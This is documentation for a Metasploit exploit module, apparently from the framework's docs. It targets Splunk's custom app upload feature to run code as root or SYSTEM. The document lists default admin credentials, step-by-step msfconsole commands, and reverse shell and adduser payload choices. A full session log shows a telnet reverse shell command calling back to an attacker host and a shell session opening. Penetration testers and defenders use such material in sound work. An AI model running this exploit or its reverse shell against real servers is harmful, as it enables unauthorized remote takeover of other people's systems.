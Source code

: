## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  
  8. If targeting linux or macos set proper payload
    ```SET TARGET [1|3]```
  ```set payload cmd/unix/reverse_python```
    If targeting windows set proper payload
    ```SET TARGET 2```
    set payload cmd/windows/adduser
  9. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
* [First PoC](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) <br>
* [Metasploit module how-to](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)<br>
* [SPLUNK API](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)<br>

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
